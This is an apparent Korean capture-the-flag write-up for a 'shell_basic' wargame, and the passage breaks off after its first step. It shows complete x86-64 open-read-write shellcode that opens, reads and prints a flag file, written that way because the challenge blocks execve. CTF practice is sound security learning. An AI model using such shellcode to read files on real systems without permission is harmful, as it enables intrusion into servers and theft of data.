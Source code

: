 # 문제 풀이 방법
이번 워게임의 목표는 원격 서버의 `/home/shell_basic/flag_name_is_loooooong`에서 flag를 읽어오는 것이다.  
그런데 여기서 제공된 문제의 shell_basic.c 파일을 보면 execuve, execveat 시스템 콜을 사용하지 못하도록 막아놨기 때문에, orw 쉘코드를 통해 해당 flag를 읽어오면 된다. 

## 풀이 방법 1. c언어 skeleton 코드 이용

- **1.~5. 까지는 원격 서버에 byte code(opcode)를 추출하여 shellcode를 전달하기 위한 부분이고 6.이 실제 공격 과정이다.**

1. 먼저 orw 쉘 코드를 작성 후 skeleton 코드를 통해 실행 파일(ELF) 파일을 생성한다.
```
// File name: orw.c
// Compile Option: gcc -o orw orw.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"
    "xor rax, rax\n"
    "push rax\n"
    "mov rax, 0x676e6f6f6f6f6f6f\n"
    "push rax\n"
    "mov rax, 0x6c5f73695f656d61\n"
    "push rax\n"
    "mov rax, 0x6e5f67616c662f63\n"
    "push rax\n"
    "mov rax, 0x697361625f6c6c65\n"
    "push rax\n"
    "mov rax, 0x68732f656d6f682f\n"
    "push rax\n"

    "mov rdi, rsp\n"
    "xor rsi, rsi\n"
    "xor rdx, rdx\n"
    "mov rax, 0x02\n"
    "syscall\n"

    "mov rdi, rax\n"
    "mov rsi, rsp\n"
    "sub rsi, 0x30\n"
    "mov rdx, 0x30\n"
    "xor rax, rax\n"
    "syscall\n"

    "mov rdi, 0x1\n"
    "mov rax, 0x1\n"
    "syscall\n"

    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c  # rax = sys_exit\n"
    "syscall        # exit(0)"
);
void run_sh();
int main() { run_sh(); }
```
